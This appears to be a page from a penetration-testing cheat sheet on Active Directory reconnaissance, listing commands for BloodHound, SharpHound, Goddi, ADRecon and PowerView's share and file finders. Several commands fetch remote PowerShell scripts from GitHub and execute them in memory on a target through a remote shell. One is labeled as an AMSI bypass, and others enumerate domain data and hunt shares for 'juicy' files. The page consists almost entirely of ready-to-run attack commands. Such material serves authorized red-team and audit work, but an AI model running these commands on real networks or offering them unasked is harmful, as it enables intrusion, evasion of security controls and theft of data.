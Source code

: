 Search shares and files using Invoke-FileFinder and Invoke-ShareFinder

## Domain Analysis

### BloodHound

Run locally on non-domain joined machine (remember to add target domain to registry):

``..\BloodHound.ps1``

``Invoke-BloodHound``

### SharpHound

`SharpHound.exe --CollectionMethod All`

### Run from remote shell

Useful when you have a remote shell.

`powershell Set-ExecutionPolicy RemoteSigned`

`powershell -command "& { . C:\BloodHound.ps1; Invoke-BloodHound }"`

### Run from web server or over Internet:

Use this when you cannot copy BloodHound.ps1 over to target.

`powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/PowerShell/BloodHound.ps1'); Invoke-BloodHound"`

### Run using Sharppick - AMSI bypass

SharpPick.exe -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1'); Invoke-BloodHound"

`SharpPick-64.exe -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"`

### Goddi (fast dump all domain info)

`.\godditest-windows-amd64.exe -username=testuser -password="testpass!" -domain="test.local" -dc="dc.test.local" -unsafe`

### ADRecon (More detailed - Good for AD Auditing)

https://github.com/sense-of-security/ADRecon

### Share and file finder
`Invoke-ShareFinder -CheckShareAccess -Verbose -Threads 20 | 
Out-File -Encoding Ascii interesting-shares.txt`

`Invoke-FileFinder -ShareList .\interesting-shares.txt -Verbose -Threads 
20 -OutFile juicy_files.csv`
